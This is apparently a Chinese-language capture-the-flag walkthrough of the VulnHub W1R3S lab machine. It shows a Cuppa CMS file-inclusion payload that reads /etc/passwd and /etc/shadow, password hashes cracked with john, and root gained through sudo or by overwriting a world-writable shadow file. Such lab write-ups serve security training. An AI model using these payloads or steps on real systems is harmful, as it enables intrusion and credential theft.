 # W1R3S: 1.0.1

https://www.vulnhub.com/entry/w1r3s-101,220/

difficulty: Beginner/Intermediate

Finish Date：2024-4-10

## IP

192.168.10.155

## Scan

Open Port -> 21,22,80,3306

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.10.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07e35a5cc81865b05f6ef775c77e11e0 (RSA)
|   256 03ab9aed0c9b32264413adb0b096c31e (ECDSA)
|_  256 3d6dd24b46e8c9a349e09356222ee354 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
3306/tcp open  mysql   MySQL (unauthorized)
```

先看看 ftp 21 可以匿名登陆，看到有 3 个文件夹，分别是：content、docs、new-employees。

01.txt 中的内容：

```
New FTP Server For W1R3S.inc
```

02.txt 中的内容，下面那个应该是个 base64，解码看看是什么信息：

```
#
#
01ec2d8fc11c493b25029fb1f47f39ce                <-- 这个应该是个哈希，看看能不能找到明文
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==    <-- 解码后的值为：It is easy, but not that easy..
############################################

```

03.txt 中没有什么有用的信息。

employee-names.txt 中的内容，好像可以得到登陆系统的用户名：

```
Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

worktodo.txt 中得到的内容，说这不是通向 root 的方法：

```
ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

在看看 80 网站上有什么有用的信息，默认页面是一个 apache 的主页，没什么有用信息，用目录扫描工具进行扫描看看有什么，扫描到了 3 个子目录：/administrator、/javascript 、/wordpress。
熟悉的老演员 wordpress 又出现了，分别访问子目录，看看有什么信息。

-   /javascript 403 不能访问。
-   /10.11.1.116 发现重定向到了 https://localhost/wordpress/，应该是系统内部做了跳转设置，只能在本地访问。
-   /administrator 好像是个管理后台的初始化设置 Installation 页面，而且我们能配置一些重要信息。看配置页面的提示，是一个 Cuppa CMS。让我们设置数据库的名字为：test，数据库用户名为：root，密码为 root，网站管理员用户名为：admin，登陆密码为 admin，继续下一步。到最后一步提示数据库建立成功，但是 Administrator's user created No 不成功。

尝试搜索 Cuppa CMS 的 exp，发现存在文件包含漏洞，但是 exp 中是直接 get 访问 http://192.168.10.155/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd 时，显示的是一个空的框，没有任何内容，反复尝试了还是不行，估计是搭建网站的人改写了某些源代码，不接受 get 方式的请求，尝试换 POST 方式进行访问，看看是否能行。最终得到了我们想要的内容：

```
root:x:0:0:root:/root:/bin/bash
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

尝试一下看看能否远程包含我们的 php 后门代码，结果是不能包含，看看能否用包装器去读本地 php 文件 urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php，结果也读不了，估计是在 php 中配置了某些参数，关闭了相应的功能。

其他什么信息都没有发现，installation 页面也报错。没有其他思路，既然能读取 /etc/passwd，看看是否有权限读取 /etc/shadow。这里有重大发现：

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

看到了这三个用户的哈希密码，使用 john 进行爆破，得到了 w1r3s 的密码：computer，使用其登陆 ssh，尝试找 root 提权点，上传 linpeas 直接枚举。

## flag

### 方式 1：

发现 sudo -l 时，用户具有全部命令执行权限：

```
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL

```

所以直接可以切换到 root 用户，sudo su root 输入密码获得 root 权限。

### 方式 2：

发现 /etc/passwd 和 /etc/shadow 全局可写，所以直接修改/etc/shadow 中的 root 密码，su root 直接获得最高权限。

```
nano  /etc/shadow

修改root的哈希密码和w1r3s一样：$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.
```

su root 输入密码：computer

最终在/root 目录下获得了 flag：

```
root@W1R3S:~# cat flag.txt
-----------------------------------------------------------------------------------------
   ____ ___  _   _  ____ ____      _  _____ _   _ _        _  _____ ___ ___  _   _ ____
  / ___/ _ \| \ | |/ ___|  _ \    / \|_   _| | | | |      / \|_   _|_ _/ _ \| \ | / ___|
 | |  | | | |  \| | |  _| |_) |  / _ \ | | | | | | |     / _ \ | |  | | | | |  \| \___ \
 | |__| |_| | |\  | |_| |  _ <  / ___ \| | | |_| | |___ / ___ \| |  | | |_| | |\  |___) |
  \____\___/|_| \_|\____|_| \_\/_/   \_\_|  \___/|_____/_/   \_\_| |___\___/|_| \_|____/

-----------------------------------------------------------------------------------------

                          .-----------------TTTT_-----_______
                        /''''''''''(______O] ----------____  \______/]_
     __...---'"""\_ --''   Q                               ___________@
 |'''                   ._   _______________=---------"""""""
 |                ..--''|   l L |_l   |
 |          ..--''      .  /-___j '   '
 |    ..--''           /  ,       '   '
 |--''                /           `    \
                      L__'         \    -
                                    -    '-.
                                     '.    /
                                       '-./

----------------------------------------------------------------------------------------
  YOU HAVE COMPLETED THE
               __      __  ______________________   _________
              /  \    /  \/_   \______   \_____  \ /   _____/
              \   \/\/   / |   ||       _/ _(__  < \_____  \
               \        /  |   ||    |   \/       \/        \
                \__/\  /   |___||____|_  /______  /_______  /.INC
                     \/                \/       \/        \/        CHALLENGE, V 1.0
----------------------------------------------------------------------------------------

CREATED BY SpecterWires

----------------------------------------------------------------------------------------

```

最后让我们看看源代码中是否是将 Get 方法改成了 Post，验证了我们的猜测：

```
<div id="content_alert_config" class="content_alert_config">
    <?php include "../components/table_manager/fields/config/".@$cuppa->POST("urlConfig"); ?>
</div>
```

上面的代码中加了文件路径前缀，所以 php://filter/convert.base64-encode/resource=../Configuration.php 这样就执行不出来。

同时查看 php.ini 看到配置参数已经 off，不能远程加载：

```
root@W1R3S:/var/www/html/administrator/alerts# cat /etc/php/7.0/apache2/php.ini |grep allow_url_include
allow_url_include = Off
root@W1R3S:/var/www/html/administrator/alerts# cat /etc/php/7.0/apache2/php.ini |grep allow_url_fopen
allow_url_fopen = On
```
